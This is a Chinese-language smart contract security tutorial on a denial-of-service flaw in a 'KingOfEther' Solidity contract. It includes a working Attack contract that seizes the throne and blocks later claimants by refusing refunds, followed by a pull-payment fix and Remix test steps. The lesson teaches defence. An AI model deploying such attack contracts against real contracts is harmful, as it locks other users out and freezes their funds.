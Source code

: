 # 72.Denial of Service
## 漏洞
攻击智能合约使其无法使用的方法有很多种。
我们在这里介绍的一种利用是通过让发送以太币的函数失败来实现拒绝服务。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
KingOfEther的目标是通过发送比前任国王更多的以太币来成为国王。前任国王将获得他发送的以太币的退款。
*/

/*
1. 部署KingOfEther。
2. Alice通过发送1 以太币来调用claimThrone()函数成为了国王。
3. Bob通过发送2 以太币来调用claimThrone()函数成为了国王。Alice收到了1 以太币的退款。
4. 部署Attack合约并将KingOfEther的地址作为参数。
5. 调用attack函数并发送3 以太币。
6. 当前的国王是Attack合约，没有人可以成为新的国王。

发生了什么？
Attack成为了国王。所有试图夺取王位的新挑战都将被拒绝，因为Attack合约没有回退函数，拒绝接受在新国王产生之前从KingOfEther发送的以太币。
*/

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 你还可以通过使用assert消耗所有的燃料来执行DOS攻击。
    // 即使调用合约没有检查调用是否成功，此攻击也会起作用。
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
## 预防性技术
防止这种情况的一种方法是允许用户撤回他们的以太币而不是发送它。
以下是一个例子。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

## remix验证
部署合约KingOfEther，1地址通过发送1 以太币来调用claimThrone()函数成为了国王。
![72-1.png](./img/72-1.png)
2地址通过发送2 以太币来调用claimThrone()函数成为了国王。1地址收到了1 以太币的退款。
![72-2.png](./img/72-2.png)
部署Attack合约并将KingOfEther的地址作为参数。调用attack函数并发送3 以太币。当前的国王是Attack合约。
![72-3.png](./img/72-3.png)
